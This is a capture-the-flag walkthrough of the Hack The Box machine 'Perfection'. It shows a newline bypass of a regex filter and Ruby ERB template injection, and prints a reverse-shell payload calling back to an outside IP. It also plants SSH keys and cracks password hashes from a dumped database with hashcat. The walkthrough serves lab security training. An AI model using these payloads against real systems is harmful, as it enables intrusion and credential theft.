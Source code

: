 HTB Machine

First, an `nmap` of the box after setting up the `/etc/hosts` to set up dns for the hostname.
```
Nmap scan report for perfection.htb (10.129.209.140)
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Well, clean and clear, ssh is probably nothing, so its only http. boot up burpsuite, redirect traffic in the webbrowser to burp, and visit the site.

Most of it seems boiler plate and non-interactive, however there is a page called "calculate your weighted grade"

Seems like there is input on this page, but if we scroll all the way down, it says "Powered by WEBrick 1.7.0". [Webrick](https://github.com/ruby/webrick) is a ruby http server, which means that any input we give it should be based on ruby.

googling "hacktricks ruby" immediately takes us to the [SSTI page for ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby) Lets try some of them. However, there seems to be some sort of filtering that gives 
`Malicious input blocked` if it finds some sort of filtering. Behind the scenes, its doing this filtering
```ruby
...
elsif params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ ...

@result = ERB.new("Your total grade is ...

erb :'weighted_grade_results'

else

@result = "Malicious input blocked"

erb :'weighted_grade_results'

end
```

In order to bypass the filtering, we can try a trick for regex. If we add in a whitespace character, and then a new line `%0a`, we can bypass the filtering.

so, implementing this bypass, which looks like `+%0a` in the request, we can implement an SSTI in the above link, and execute whatever commands we like.

```
POST /weighted-grade-calc HTTP/1.1
Host: perfection.htb
...
category1=%20%0a<%25%3d+`whoami`+%25>&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

```
...
</form>
      Your total grade is 100%<p> 
	susan
: 100%</p>
```

lets use [revshells.com](revshells.com) with the insight that our server is running ruby to execute a reverse shell. 

`<= spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.200",3001))%>`

Gets us a shell!

Next is to establish a proper shell. which is easily done with these two lines
`mkdir /home/susan/.ssh`
`echo "[your id_*.pub key]" > /home/susan/.ssh/authorized_keys`

And if you try to ssh in through your regular terminal...
```bash
$ ssh susan@perfection.htb      
...
You have mail.
susan@perfection:~$
```

We are in! Be sure to read `user.txt` and submit it to get credit.

we see mail as a notification, so lets check /var/mail. There is a file there, with this message.

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

and if we check `~/Migration/` we can see the file `pupilpath_credentials.db`. running `binwalk` on the file gets us

```
$ binwalk pupilpath_credentials.db  

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             SQLite 3.x database,
```

if we use the `sqlite` command, and do a first guess of `users` as the table, we can make a query to get all of the data from the database.
```
$ sqlite3 pupilpath_credentials.db
SQLite version 3.44.2 2023-11-24 11:41:44
Enter ".help" for usage hints.
sqlite> .headers ON
sqlite> select * from users;
id|name|password
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite>
```

The hash in the password is identifiable with `hash-identifier`
```
$ hash-identifier abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
--------------------------------------------------
```

Most likely, its `SHA-256`.

So, we know that the the password format should be ` {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}`

so for each one, we can use `hashcat`. We can reference their [example hashes site](https://hashcat.net/wiki/doku.php?id=example_hashes) , and the mode we need to use is `1400`. Next, our brute forcing method. we know it starts with something like `susan_nasus_`.  theres also the option of `--increment` which allows `hashcat` to iterate through the mask below, one character at a time. so we start it with the susan hash

`hashcat -m 1400 -a 3 --increment --increment-min 12 --increment-max 22 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d?d`

And its been cracked. Lets try it with the others!
`tina_anit_:dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57`
`david_divad_:ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a`
`harry_yrrah_:d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393`
`stephen_nehpets_:154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8`

And if you check your potfile, you should be able to find all of the passwords in there.

lets try a simple `sudo su` to get to root. And it works, box rooted!
https://www.hackthebox.com/achievement/machine/158887/590

